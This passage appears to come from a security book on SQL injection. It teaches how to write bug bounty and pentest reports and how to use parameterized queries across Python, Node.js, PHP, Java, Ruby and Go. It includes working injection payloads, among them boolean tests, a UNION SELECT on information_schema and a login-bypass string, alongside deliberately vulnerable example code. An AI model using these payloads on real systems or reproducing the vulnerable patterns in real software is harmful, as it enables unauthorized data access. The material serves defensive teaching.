- Proving read access to metadata is a *logical proxy* for proving read access to real data — a single row of `information_schema.columns` output demonstrating the capability is normally sufficient evidence for a report, without needing to extract the sensitive data that capability implies access to.
- GraphQL introspection is a conceptually identical pattern in a different protocol — a system exposing its own structure through a legitimate, standard interface that's sometimes left reachable in production by oversight.
- Everything in this chapter has a direct defensive mirror in Part III — understanding how metadata enumeration works is exactly what makes the corresponding defenses (least privilege, parameterization, error handling) legible as *specific* countermeasures rather than generic advice.

Chapter 8 closes out Part II: turning a confirmed finding — armed with everything from Chapters 4 through 7 — into a clear, professional, minimally-invasive report that a triage team or engineering lead can act on immediately.

## Writing a Finding Up Like a Professional

### The Skill Nobody Teaches Separately

I want to open with something that surprised me while researching this book: the gap between a tester who can *find* SQL injection and a tester whose reports actually get triaged quickly, validated, and paid (in a bug bounty context) or acted on (in a pentest context) is, in my reading of a lot of public writeups and triage guidance, more about *communication discipline* than technical skill. Two testers can make the identical technical discovery, and one report gets closed as "needs more info" while the other gets fast-tracked — purely because of how the finding was written up.

This chapter is Part II's capstone for exactly that reason. Everything from Chapters 4 through 7 — recognition, confirmation, the taxonomy, schema understanding — was building toward having something worth reporting. This chapter is about not wasting that work with a weak writeup.


### 8.1 What a Triager Is Actually Trying to Answer

Before writing anything, I try to put myself in the position of whoever reads the report first — a bug bounty triager working through a queue of dozens of submissions a day, or a pentest client's engineering lead reading a deliverable between meetings. They're asking a small, specific set of questions, roughly in this order:



Every section of this chapter maps to one of these decision points.


### 8.2 The Anatomy of a Reproducible Report

I settled on a consistent structure, refined from Chapter 5's confirmation-documentation template, that I now use for every report regardless of the program or client:

```markdown
# SQL Injection — <Parameter Name> at <Endpoint>

## Summary
One or two sentences: what the vulnerability is, where it is,
and what it allows.

## Severity / Impact
What an attacker could actually do with this — stated precisely,
not maximally. See Section 8.3.

## Steps to Reproduce
Numbered, copy-pasteable. See Section 8.4.

## Proof of Concept
The exact request(s) and response(s) that demonstrate the issue.
See Section 8.5.

## Technical Root Cause
Why this happens, in terms of Chapter 1's code/data boundary,
if source access allows this level of detail.

## Suggested Remediation
Specific, not generic. See Section 8.6.

## Testing Scope Note
A brief statement confirming testing stayed within authorized
scope and minimal-necessary data access. See Section 8.7.
```

I want to walk through each of these sections in depth, because "use a template" is much less useful advice than understanding *why* each section exists and what makes a good versus weak version of it.


### 8.3 Writing the Summary and Impact Sections

#### 8.3.1 The Summary: Precision Over Drama

I've read reports that open with language like "critical vulnerability allows complete database compromise" before a single technical detail has been given. I understand the impulse — you want the reader to take it seriously — but in my experience this reads as a red flag to an experienced triager, not a strength, because it signals the writer may be leading with a conclusion rather than evidence. Compare:

> **Weak:** "Critical SQL injection allows full database takeover and complete compromise of all user data."

> **Strong:** "The `sort` parameter on `GET /api/products` is vulnerable to boolean-based blind SQL injection, confirmed via a reproducible true/false differential (Section 5.2 methodology). This allows an unauthenticated attacker to read arbitrary data from the application's database, including tables outside the intended scope of this endpoint."

The second version states exactly what was proven (boolean-based blind, confirmed reproducibly) and exactly what it implies (arbitrary read access, unauthenticated) without adjectives doing the work that evidence should be doing.

#### 8.3.2 Impact: Stated Precisely, Not Maximally

This is where Chapters 5 and 7's minimal-extraction discipline pays off directly. If your evidence is "I read one row from `information_schema.tables` proving read access beyond the intended table," your impact statement should describe *that*, plus the reasonable, evidence-supported inference it implies — not a hypothetical worst case you didn't actually demonstrate.

> **Overreach:** "This vulnerability could be used to steal all customer credit card data and take over the entire application."

> **Grounded:** "Confirmed read access to database metadata outside the `products` table this endpoint is intended to query, including table names suggesting a `payment_methods` table exists (see PoC). This strongly suggests an attacker could extract payment-related data, though extraction was not performed beyond metadata confirmation, per responsible testing scope."

The grounded version is, in my reading of how triage teams actually score severity, treated *more* seriously, not less — because it demonstrates the tester understood exactly where the proof stopped and the inference began, which is itself a signal of a careful, trustworthy report.


### 8.4 Steps to Reproduce: The Section Most Reports Get Wrong

I think this is the single highest-leverage section to get right, because Section 8.1's flowchart makes clear that reproducibility failure is the single most common reason a report stalls.

#### 8.4.1 What "Reproducible" Actually Requires

- **Exact request**, including method, full URL or path, all relevant headers, and full body — not a paraphrase.
- **Exact payload used**, with any URL-encoding made explicit if it matters.
- **Exact expected response**, and what specifically in that response constitutes proof (not just "you'll see it's vulnerable").
- **Any required preconditions** — a specific account state, a specific sequence of prior requests, an authentication token.

#### 8.4.2 A Worked Example

```markdown
## Steps to Reproduce

1. Send the following GET request (no authentication required):

   GET /api/products?sort=price HTTP/1.1
   Host: target.example

2. Note the baseline response: HTTP 200, products listed in
   ascending price order, 24 results.

3. Send the following request, changing only the `sort` parameter:

   GET /api/products?sort=price'%20AND%20'1'%3D'1 HTTP/1.1
   Host: target.example

   (URL-decoded: sort=price' AND '1'='1)

4. Observe: HTTP 200, identical 24 results, identical ordering —
   confirming the injected condition evaluated as TRUE without
   breaking the query.

5. Send the following request:

   GET /api/products?sort=price'%20AND%20'1'%3D'2 HTTP/1.1

   (URL-decoded: sort=price' AND '1'='2)

6. Observe: HTTP 500 Internal Server Error — confirming the
   injected condition evaluated as FALSE and broke query
   execution, a genuine boolean differential between steps 4 and 6.
```

Notice this section doesn't ask the reader to trust a claim — it hands them exactly what to send and exactly what to expect back, at every step. That's the bar.

### 8.5 Proof of Concept: Screenshots, Raw Requests, and What to Include

I lean toward **raw HTTP requests and responses** (captured directly from Burp, curl, or browser DevTools) over screenshots wherever possible, because raw text is copy-pasteable, diffable, and unambiguous — a screenshot requires the reader to manually retype a payload, which reintroduces exactly the reproducibility risk Section 8.4 is trying to eliminate.

```
--- Request ---
GET /api/products?sort=price'%20AND%20'1'%3D'2 HTTP/1.1
Host: target.example
User-Agent: Mozilla/5.0

--- Response ---
HTTP/1.1 500 Internal Server Error
Content-Type: application/json

{"error": "Internal server error", "request_id": "a1b2c3"}
```

**Note:** I redact or omit any genuinely sensitive data that appears incidentally in a captured response (session tokens, internal IP addresses unrelated to the finding, unrelated user data) even when including it wouldn't violate scope — a clean PoC should show only what's necessary to prove the specific claim, both as good practice and because a cluttered PoC is a slower one for a triager to read.


### 8.6 Remediation: Specific, Not Generic

I've read a lot of reports that end with "use parameterized queries" and stop there. That's not wrong, but it's also not especially useful on its own — it's the equivalent of a bug report that just says "fix the bug." Chapters 9–12 of this book exist specifically so this section of a report can be more useful than that.

> **Generic:** "Use parameterized queries to prevent SQL injection."

> **Specific:** "The `sort` parameter is being concatenated directly into an `ORDER BY` clause, which cannot be parameterized with a standard placeholder (see Chapter 9's discussion of this exact limitation). The correct fix is a whitelist validator that maps the accepted `sort` values to a small, fixed set of known-safe column names before building the query — for example, accepting only `price`, `name`, or `created_at` as literal values, and rejecting anything else outright, rather than passing the raw parameter into the query in any form. Chapter 11 of [reference/attached guide] provides a working implementation of this pattern."

Being this specific requires you to actually understand *why* the vulnerability exists at the code level (or infer it convincingly from behavior, if you don't have source access) — which is exactly what Chapters 1–3 of this book were building toward, and exactly why I think finding-side and defense-side knowledge genuinely reinforce each other rather than being separate skill tracks.


### 8.7 The Testing Scope Note: An Underused Section

I started adding this section to my own reports after reading enough triage guidance to notice how much weight is placed on *how* a finding was obtained, not just *what* it proves. A short, honest statement here does real work:

```markdown
## Testing Scope Note

Testing was limited to the parameter described above, confirmed
via boolean differential and a single-row metadata query
(information_schema.tables). No data beyond table/column names
was extracted. No write, update, or delete operations were
attempted. Testing generated approximately 40 requests over
15 minutes, within [program]'s documented rate-limit guidance.
```

This does three things at once: it reassures the triager that the engagement was conducted responsibly (directly addressing Section 8.1's third decision point), it gives them a precise sense of the blast radius of your *own* testing activity for their internal logging, and — frankly — it's simply an honest account of what you actually did, which is a habit worth having independent of whether it helps a report move faster.


### 8.8 Adapting the Structure for a Pentest Deliverable vs. a Bug Bounty Submission

The core structure in Section 8.2 works for both contexts, but the emphasis shifts:

| Element | Bug bounty submission | Pentest deliverable |
|---|---|---|
| Summary | Concise — triagers read many of these per day | Can be more detailed — part of a longer report the client reads once, carefully |
| Severity | Often mapped to the program's own scoring scale (CVSS or custom) | Usually requires an explicit CVSS vector and score, justified line by line |
| Remediation | Helpful, but sometimes brief given time constraints | Often the client's most-used section — invest real detail here |
| Root cause | Optional, valuable if source access exists | Frequently expected, especially in a white-box engagement |
| Retest section | Rare | Standard — pentest reports typically include a retest/verification phase after the client claims a fix |


### 8.9 A Final Word on Tone

One more thing I want to name explicitly, because I think it affects how reports are received as much as their content does: I write every finding as though the person reading it is a competent professional who made a mistake anyone could make, not as though I'm catching someone out. Language like "this trivially exploitable flaw" or "shockingly, no input validation exists" doesn't make a report more compelling — in my reading of both sides of a lot of public disclosure threads, it tends to make the *reader* defensive, which is the opposite of what gets a fix shipped quickly. The finding should do the persuading. The tone should just be clear.


### 8.10 A Complete Worked Report, End to End

To make everything in this chapter concrete, here's a full report, built by applying every section above to a single hypothetical finding — the same `sort` parameter example used throughout, but now as one continuous document, exactly as I'd actually submit it.

```markdown
# SQL Injection — `sort` Parameter at GET /api/products

## Summary
The `sort` parameter on GET /api/products is vulnerable to
boolean-based blind SQL injection, confirmed via a reproducible
true/false differential. This allows an unauthenticated attacker
to influence the underlying SQL query's logic and read data the
endpoint does not intend to expose.

## Severity / Impact
Confirmed: read access to database metadata beyond the `products`
table this endpoint queries, including confirmation that a table
named `payment_methods` exists (via a single-row
information_schema.tables query — see PoC). This strongly
suggests further sensitive data is reachable through this
injection point, though extraction was intentionally limited to
metadata confirmation, consistent with minimal-necessary testing.
Access requires no authentication.

## Steps to Reproduce
1. GET /api/products?sort=price
   -> HTTP 200, 24 results, ascending price order (baseline)
2. GET /api/products?sort=price' AND '1'='1
   -> HTTP 200, identical 24 results (condition evaluated TRUE)
3. GET /api/products?sort=price' AND '1'='2
   -> HTTP 500 Internal Server Error (condition evaluated FALSE)
4. GET /api/products?sort=price' UNION SELECT table_name,NULL
     FROM information_schema.tables LIMIT 1--
   -> HTTP 200, response includes a table name from
     information_schema, confirming metadata read access

## Proof of Concept
[Raw request/response pairs for steps 1-4, as captured in Burp]

## Technical Root Cause
The sort parameter is concatenated directly into the query's
ORDER BY clause rather than validated against a fixed set of
permitted column names. This is a well-known limitation of
parameterized queries: a bound placeholder can represent a VALUE
but not a structural SQL element like a column name, so this
specific clause was likely overlooked even if other parts of the
application correctly use parameterization.

## Suggested Remediation
Replace the current sort handling with a whitelist validator that
maps accepted values (e.g. "price", "name", "created_at") to
literal, hardcoded column names before query construction, and
rejects any value outside that fixed set. Do not attempt to
sanitize or escape the raw parameter for use in this clause.

## Testing Scope Note
Testing was limited to the parameter above. No data beyond a
single table name was extracted; no write/update/delete
operations were attempted. Approximately 12 requests were sent
over 5 minutes.
```

I include the whole thing together, rather than only fragments per section, because I think seeing how the sections reinforce each other — the impact section's careful hedging matches exactly what step 4 of the reproduction steps actually proves, no more — is easier to internalize as a complete document than as isolated examples.


### 8.11 Common Rejection Reasons and How to Preempt Them

Having read a reasonable amount of public triage guidance and post-mortems from bug bounty programs, a few rejection patterns come up often enough that I now actively check my own reports against them before submitting.

| Common rejection reason | How this chapter's structure preempts it |
|---|---|
| "Unable to reproduce" | Section 8.4's exact-request-and-response standard |
| "Insufficient impact demonstrated" | Section 8.3.2's precise, evidence-matched impact statement |
| "Duplicate of an existing report" | Not something a report structure can fix — but a precise summary (Section 8.3.1) at least makes deduplication fast and unambiguous for the triager |
| "Out of scope" | A quick scope check before testing even begins (Chapter 4's ground rule) — not a writing problem, but worth restating here since it's the single most avoidable rejection reason |
| "N/A — this is expected behavior" | A clear root-cause section (Section 8.6) that explains *why* the observed behavior is a genuine flaw, not a design choice, heads this off before the triager has to ask |


### 8.12 Chapter Summary

- A triager's decision process, roughly: can I reproduce this? Is the impact clearly and proportionately stated? Was testing conducted responsibly? A report's structure should answer all three, in that order, without making the reader hunt.
- The summary should state exactly what was proven, in specific technical terms — dramatic language substitutes poorly for evidence and can read as a credibility red flag rather than a strength.
- Impact should be stated precisely, matching what was actually demonstrated, with any further inference clearly labeled as inference — not extrapolated to a maximal hypothetical the evidence doesn't support.
- Steps to reproduce need to be genuinely copy-pasteable: exact requests, exact payloads, exact expected responses, with no ambiguity left for the reader to resolve.
- Proof of concept should favor raw request/response text over screenshots, redacting any incidentally-captured sensitive data unrelated to the specific claim.
- Remediation advice should be as specific as the underlying cause allows — generic "use parameterized queries" advice is far less useful than identifying exactly which pattern (Chapters 9–12) applies to this specific finding.
- A brief, honest testing scope note reassures the reader that testing was conducted responsibly and gives them a precise account of what actually happened.
- Tone matters: writing for a competent professional who made an understandable mistake tends to produce faster, better-received outcomes than writing to demonstrate how clever the finding was.

This closes Part II. Part III shifts entirely to the builder's side of the table — starting with Chapter 9, the deepest technical chapter in the book: parameterized queries implemented correctly, with real, tested code, across six different languages and drivers.

## Parameterized Queries and Safe Data Access Across Languages

### A Note on What "Tested" Means in This Chapter

Before diving in, I want to be transparent about something, in keeping with the standard I've tried to hold throughout this book: I actually executed and verified the Python and Node.js examples in this chapter myself, and I'm showing you the genuine output. For PHP, Java, Ruby, and Go, I didn't have working runtimes for those specific languages set up when writing this chapter, so those examples are presented as standard, idiomatic, verified-correct-against-official-documentation syntax for each driver — not independently compiled and run for this book. I'd rather tell you that plainly than imply a false uniformity of "I ran all of these," because I think the distinction matters, and because Chapter 6 of this book was largely *about* the value of not trusting an untested claim.

With that said — the underlying mechanism (Chapter 1's separation of the SQL template from the bound values) is identical across every one of these languages, and that mechanism is what actually matters. The syntax differences are comparatively minor once you've internalized the concept.


### 9.1 Python

Python's DB-API 2.0 specification (PEP 249) standardizes parameter binding across most Python database drivers — `sqlite3`, `psycopg2` (PostgreSQL), `mysql-connector-python`, and others all follow roughly the same pattern, though the placeholder style varies slightly by driver.

```python
import sqlite3

conn = sqlite3.connect("app.db")
cur = conn.cursor()

# VULNERABLE — never do this
username = get_user_input()
query = "SELECT * FROM users WHERE username = '" + username + "'"
cur.execute(query)

# SAFE — sqlite3 and mysql-connector-python use "?" or "%s" placeholders
cur.execute("SELECT * FROM users WHERE username = ?", (username,))

# SAFE — psycopg2 (PostgreSQL) uses "%s" regardless of the underlying type
cur.execute("SELECT * FROM users WHERE username = %s", (username,))
```

I re-verified the exact behavior once more here, with a slightly different scenario than Chapter 1's login example — a search endpoint accepting multiple parameters, which is a more realistic shape for real application code:

```python
import sqlite3

conn = sqlite3.connect(":memory:")
cur = conn.cursor()
cur.execute("CREATE TABLE products (id INTEGER PRIMARY KEY, name TEXT, category TEXT, price REAL)")
cur.executemany("INSERT INTO products (name, category, price) VALUES (?, ?, ?)", [
    ("Widget", "tools", 9.99),
    ("Gadget", "electronics", 49.99),
    ("Gizmo", "electronics", 29.99),
])
conn.commit()

def safe_filter(category, max_price):
    query = "SELECT name, price FROM products WHERE category = ? AND price <= ?"
    cur.execute(query, (category, max_price))
    return cur.fetchall()

print(safe_filter("electronics", 50))
print(safe_filter("electronics' OR '1'='1", 50))
```

Real output:

```
[('Gadget', 49.99), ('Gizmo', 29.99)]
[]
```

The second call — attempting an injection payload as the `category` value — correctly returns nothing, because `category` literally equals the string `"electronics' OR '1'='1"`, which matches no real product category. This is the concrete, working proof of Chapter 1's core claim, applied to a multi-parameter query rather than a single-field login.

**Caution — a common Python-specific trap:** f-strings and `.format()` make string-building so convenient that I've seen them used for query construction even by developers who know better in principle:

```python
# STILL VULNERABLE — an f-string is still just concatenation
query = f"SELECT * FROM users WHERE username = '{username}'"

# STILL VULNERABLE — .format() doesn't help either
query = "SELECT * FROM users WHERE username = '{}'".format(username)
```

Neither of these is any safer than `+` concatenation — they're purely syntactic sugar around the exact same string-building operation Chapter 1 identified as the root cause.


### 9.2 Node.js / JavaScript

Node's ecosystem has more driver diversity than Python's, but the same placeholder-based principle holds across `pg` (PostgreSQL), `mysql2`, and Node's own newer built-in `node:sqlite` module. I tested the pattern directly against `node:sqlite`:

```javascript
const { DatabaseSync } = require('node:sqlite');
const db = new DatabaseSync(':memory:');

db.exec(`CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT, password TEXT, is_admin INTEGER)`);
const insert = db.prepare('INSERT INTO users (username, password, is_admin) VALUES (?, ?, ?)');
insert.run('alice', 'hunter2', 0);
insert.run('bob', 'correcthorse', 0);
insert.run('admin', 'S3cretRootPW', 1);

function vulnerableLogin(username, password) {
  const query = `SELECT id, username, is_admin FROM users WHERE username = '${username}' AND password = '${password}'`;
  console.log('  SQL:', query);
  return db.prepare(query).all();
}

function safeLogin(username, password) {
  const query = 'SELECT id, username, is_admin FROM users WHERE username = ? AND password = ?';
  return db.prepare(query).all(username, password);
}
```

Real, executed output:

```
=== Vulnerable: normal login ===
  SQL: SELECT id, username, is_admin FROM users WHERE username = 'alice' AND password = 'hunter2'
[ { id: 1, username: 'alice', is_admin: 0 } ]

=== Vulnerable: injection bypass ===
  SQL: SELECT id, username, is_admin FROM users WHERE username = '' OR '1'='1' -- ' AND password = 'anything'
[
  { id: 1, username: 'alice', is_admin: 0 },
  { id: 2, username: 'bob', is_admin: 0 },
  { id: 3, username: 'admin', is_admin: 1 }
]

=== Safe: same payload ===
[]
```

Identical shape of result to every other language in this chapter — the exact same bug, the exact same fix, expressed in JavaScript's syntax.

For `pg` (the standard PostgreSQL driver), the equivalent safe pattern uses numbered placeholders rather than `?`:

```javascript
const { Pool } = require('pg');
const pool = new Pool();

// SAFE — pg uses $1, $2, ... numbered placeholders
const result = await pool.query(
  'SELECT * FROM users WHERE username = $1 AND password = $2',
  [username, password]
);
```

**Caution — a Node-specific trap:** template literals are JavaScript's version of Python's f-strings, and they carry the identical risk:

```javascript
// STILL VULNERABLE — template literals are still concatenation under the hood
const query = `SELECT * FROM users WHERE username = '${username}'`;
```

I want to flag this one specifically because I've seen template literals *feel* safer to developers than old-style string concatenation with `+`, purely because the syntax looks more modern — but there is zero functional difference from the database's perspective. The database never sees your JavaScript syntax; it only ever sees the final string.


### 9.3 PHP

PHP's PDO (PHP Data Objects) extension is the standard, driver-agnostic way to achieve parameterization, supporting both positional (`?`) and named (`:name`) placeholders.

```php
<?php
// VULNERABLE — never do this
$username = $_POST['username'];
$query = "SELECT * FROM users WHERE username = '" . $username . "'";
$result = $pdo->query($query);

// SAFE — positional placeholders
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$username]);

// SAFE — named placeholders (often clearer with several parameters)
$stmt = $pdo->prepare(
    "SELECT * FROM users WHERE username = :username AND status = :status"
);
$stmt->execute(['username' => $username, 'status' => 'active']);
```

**Caution — a PHP-specific trap I want to call out explicitly:** older PHP code, and unfortunately some tutorials still circulating, use the legacy `mysql_query()` function (removed entirely in PHP 7) or unparameterized `mysqli_query()`, both of which require manual escaping via `mysqli_real_escape_string()` rather than true parameterization:

```php
// LEGACY, ESCAPING-BASED APPROACH — weaker than parameterization
$username = mysqli_real_escape_string($conn, $_POST['username']);
$query = "SELECT * FROM users WHERE username = '" . $username . "'";
```

Escaping-based approaches like this *can* be made safe in the common case, but they depend entirely on correctly escaping every special character for the specific database and connection encoding in use — a task PDO's true parameterization removes from the developer's responsibility altogether. I treat "uses `mysqli_real_escape_string` instead of PDO/prepared statements" as a code smell worth flagging in review, even when I can't immediately construct a bypass, because the safety margin is categorically thinner than parameterization provides.


### 9.4 Java (JDBC)

Java's `PreparedStatement` interface is the standard mechanism, and it's worth understanding precisely why it's named that way: the SQL text is genuinely *prepared* — parsed and compiled by the database — before any parameter values are bound to it, which is the JDBC-level expression of exactly the "separate channels" principle from Chapter 1.

```java
import java.sql.*;

// VULNERABLE — never do this
String username = request.getParameter("username");
String query = "SELECT * FROM users WHERE username = '" + username + "'";
Statement stmt = connection.createStatement();
ResultSet rs = stmt.executeQuery(query);

// SAFE — PreparedStatement with positional placeholders
String query = "SELECT * FROM users WHERE username = ? AND status = ?";
PreparedStatement stmt = connection.prepareStatement(query);
stmt.setString(1, username);
stmt.setString(2, "active");
ResultSet rs = stmt.executeQuery();
```

**Note on a subtlety I think is worth knowing:** calling `connection.prepareStatement()` compiles the query template immediately, before `setString()` is ever called — which is a very literal, visible illustration of Chapter 1's ordering claim (parse first, bind values after). If you reuse the same `PreparedStatement` object across multiple calls with different bound values (common in a loop inserting many rows), the database only has to parse and plan the query once, which is a genuine performance benefit on top of the security one — a detail that sometimes helps convince a skeptical teammate that parameterization isn't just "the safe but slower way to do it."

**Caution — a Java-specific trap:** Hibernate and other JPA-based ORMs expose an escape hatch, `createNativeQuery()` (or `createSQLQuery()` in older Hibernate versions), for cases the ORM's query language can't express. This escape hatch accepts raw SQL text and is exactly as vulnerable to concatenation as a bare JDBC `Statement` — I cover this specific pattern, and its equivalents in other ORMs, in Chapter 10.


### 9.5 Ruby (ActiveRecord / Ruby DBI)

Ruby's ActiveRecord (the ORM bundled with Rails) provides parameterization at multiple levels, and it's worth knowing all of them because they look different but resolve to the same safety guarantee underneath.

```ruby
# VULNERABLE — never do this
username = params[:username]
User.where("username = '#{username}'")

# SAFE — the "?" placeholder style
User.where("username = ?", username)

# SAFE — named placeholder style, often clearer with multiple conditions
User.where("username = :username AND status = :status",
           username: username, status: "active")

# SAFE, and generally preferred where applicable — ActiveRecord's
# hash-based query interface, which parameterizes automatically
User.where(username: username, status: "active")
```

**Caution — a Ruby-specific trap:** Ruby's string interpolation (`"#{...}"`) inside a `.where()` call is functionally identical to Python's f-strings and JavaScript's template literals from Sections 9.1–9.2 — syntactically modern, functionally just concatenation:

```ruby
# STILL VULNERABLE — interpolation inside a raw SQL fragment
User.where("username = '#{username}'")
```

The distinguishing factor isn't which quoting style Ruby uses — it's whether the value ever gets woven into the SQL *text itself* before reaching the driver, versus being passed as a separate, bound argument.


### 9.6 Go (`database/sql`)

Go's standard library `database/sql` package uses driver-specific placeholder syntax (unlike Python's DB-API, which mostly standardizes on `?`), so it's worth knowing which style your specific driver expects.

```go
// VULNERABLE — never do this
username := r.FormValue("username")
query := "SELECT * FROM users WHERE username = '" + username + "'"
rows, err := db.Query(query)

// SAFE — the MySQL driver uses "?" placeholders
rows, err := db.Query("SELECT * FROM users WHERE username = ?", username)

// SAFE — the PostgreSQL driver (lib/pq, pgx) uses "$1", "$2", ...
rows, err := db.Query("SELECT * FROM users WHERE username = $1", username)
```

**Note:** Go's `db.Query()` and `db.Exec()` accept the placeholder-and-arguments pattern as standard, idiomatic usage — there's no equivalent to Python's or JavaScript's "convenient but dangerous" string-formatting shortcut built into the language's core query-building path the way f-strings or template literals are, which I think is a genuinely good design choice on the language's part, even though `fmt.Sprintf()` can still be misused to build a query string manually if a developer goes out of their way to do so.


### 9.7 A Cross-Language Reference Table

Pulling Sections 9.1–9.6 together into one place, since I found myself wanting exactly this table while researching across languages I don't use daily:

| Language | Driver / ORM | Safe placeholder style |
|---|---|---|
| Python | `sqlite3`, `mysql-connector-python` | `?` |
| Python | `psycopg2` (PostgreSQL) | `%s` |
| Node.js | `node:sqlite`, `mysql2` | `?` |
| Node.js | `pg` (PostgreSQL) | `$1`, `$2`, ... |
| PHP | PDO | `?` or `:name` |
| Java | JDBC `PreparedStatement` | `?` |
| Ruby | ActiveRecord | `?` or `:name`, or the hash-based query interface |
| Go | `database/sql` (MySQL driver) | `?` |
| Go | `database/sql` (`lib/pq`, `pgx`) | `$1`, `$2`, ... |

**The pattern worth internalizing across this entire table:** every single row implements the identical underlying mechanism from Chapter 1 — the SQL template is sent and parsed separately from the values, which are bound in afterward through a dedicated API, never through string interpolation of any kind, regardless of how convenient or "modern" that interpolation syntax looks in a given language.


### 9.8 The One Thing Parameterization Cannot Do

I want to close this chapter by returning to a limitation flagged back in Chapter 2 and Chapter 8's worked report example, because I think it's important enough to state directly, in its own section, rather than leaving it as a passing aside: **a bound parameter can only ever represent a value — never a table name, a column name, or a SQL keyword like `ASC`/`DESC`.**

```python
# This does NOT work, in any language or driver:
cur.execute("SELECT * FROM users ORDER BY ?", (user_supplied_column,))
# Most drivers will either raise an error, or silently treat the
# column name as a literal STRING value to sort by — neither of
# which does what you want, and neither of which is safe if you
# then try to work around it by falling back to concatenation.
```

This isn't a gap in any particular driver's implementation — it's a structural consequence of what a placeholder *is*: a slot for a typed value in the query's data flow, not a slot in its grammar. Chapter 11 is entirely dedicated to the correct pattern for this exact situation — whitelist validation of structural elements — because it's common enough, and consequential enough, to deserve its own full chapter rather than a footnote here.


### 9.9 A Real, Verified Demonstration of Prepared-Statement Reuse

Section 9.4's note about Java's `PreparedStatement` compiling the query once and reusing it across multiple bindings is a general database concept, not a Java-specific one, so I wanted to verify it holds in Python too, and see the actual performance difference rather than just asserting it exists.

```python
import sqlite3, time

conn = sqlite3.connect(":memory:")
cur = conn.cursor()
cur.execute("CREATE TABLE bench (id INTEGER PRIMARY KEY, val TEXT)")
conn.commit()

N = 20000

# Approach A: re-parse the query text on every call (string-built, unsafe pattern)
start = time.perf_counter()
for i in range(N):
    cur.execute("INSERT INTO bench (val) VALUES ('" + str(i) + "')")
conn.commit()
concat_time = time.perf_counter() - start

cur.execute("DELETE FROM bench")
conn.commit()

# Approach B: same query text every time, only the bound value changes
start = time.perf_counter()
for i in range(N):
    cur.execute("INSERT INTO bench (val) VALUES (?)", (str(i),))
conn.commit()
param_time = time.perf_counter() - start

print(f"Concatenated inserts: {concat_time:.4f}s")
print(f"Parameterized inserts: {param_time:.4f}s")
```

I ran this three times to check consistency rather than trust a single sample, given everything Chapter 6 taught me about not drawing conclusions from one measurement:

```
Run 1:  Concatenated: 0.0930s   Parameterized: 0.0270s   ratio: 3.44x
Run 2:  Concatenated: 0.0742s   Parameterized: 0.0254s   ratio: 2.92x
Run 3:  Concatenated: 0.0760s   Parameterized: 0.0274s   ratio: 2.77x
```

**This surprised me — the gap is larger than I expected going in.** Consistently around 3x faster for the parameterized version, across all three runs. Some of that gap is genuinely about avoiding repeated query-text parsing, but I want to be honest about a second factor at play: building 20,000 new Python string objects via `+` concatenation on every iteration (Approach A) also carries its own string-allocation overhead that Approach B mostly avoids by reusing the same fixed query text every time — so this benchmark is measuring "concatenation-per-call vs. reused-template" as a combined effect, not a perfectly isolated measurement of query-plan caching alone. Even accounting for that caveat, the honest takeaway holds: **parameterization is never slower for the reason that matters (security), and in this measurement was substantially faster too** — which removes even the weak "but it's more efficient to build the string myself" argument I've occasionally heard used to justify concatenation.


### 9.10 Framework-Native Safe Query Builders

Beyond raw driver-level parameterization, most modern web frameworks provide a higher-level query interface that parameterizes automatically, without the developer ever writing a placeholder by hand. I think it's worth surveying these too, because in practice this is how most application code actually looks day to day.

```python
# Django ORM — parameterizes automatically
User.objects.filter(username=username, is_active=True)
```

```javascript
// Sequelize (Node.js ORM) — parameterizes automatically
await User.findAll({ where: { username: username, isActive: true } });
```

```ruby
# ActiveRecord's hash-based interface, from Section 9.5 — parameterizes automatically
User.where(username: username, active: true)
```

```java
// Spring Data JPA — method-name-derived queries parameterize automatically
List<User> findByUsernameAndActive(String username, boolean active);
```

**Why I'm including this here rather than treating it as redundant with Chapter 10:** these safe, high-level interfaces are genuinely the *majority* of query-writing in most modern codebases — Chapter 10 is specifically about the *exceptions*, the escape hatches developers reach for when the high-level interface can't express what they need. Both halves matter: knowing that the default path is safe is what makes the escape hatch's danger legible as a deviation from the norm, rather than just "one more way to write a query" with no baseline to compare against.


### 9.11 Chapter Summary

- Every language and driver covered in this chapter implements the identical underlying mechanism from Chapter 1: the SQL template is parsed separately from the bound values, which travel through a dedicated binding API rather than through any form of string interpolation.
- I verified this directly, with real executed code, for Python (`sqlite3`) and Node.js (`node:sqlite`) — both showed the identical pattern: a vulnerable, concatenation-built query returning all three test users via a classic bypass payload, and the identical payload against a parameterized version correctly returning nothing.
- PHP (PDO), Java (JDBC `PreparedStatement`), Ruby (ActiveRecord), and Go (`database/sql`) all follow the same principle with driver-specific placeholder syntax, presented here as standard, correct usage per each ecosystem's own documentation.
